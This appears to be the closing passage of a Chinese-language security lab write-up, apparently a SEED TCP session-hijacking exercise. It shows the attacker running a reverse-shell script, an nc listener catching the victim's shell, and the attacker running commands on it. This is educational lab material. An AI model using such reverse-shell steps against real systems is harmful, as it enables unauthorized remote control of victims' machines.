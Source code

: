 运行程序：

```shell
attacker-10.9.0.1$ reverseshell.py
```

可以看到，成功拿到 victim 的 shell：

```shell
attacker-10.9.0.1$ nc -lnv 9090
Listening on 0.0.0.0 9090
Connection received on 10.9.0.5 42462
seed@22c45e0a11e6:~$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
70: eth0@if71: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0a:09:00:05 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.9.0.5/24 brd 10.9.0.255 scope global eth0
       valid_lft forever preferred_lft forever
```

# 实验总结

本实验需要分清到底劫持的哪个报文，剩下的工作就很简单了。
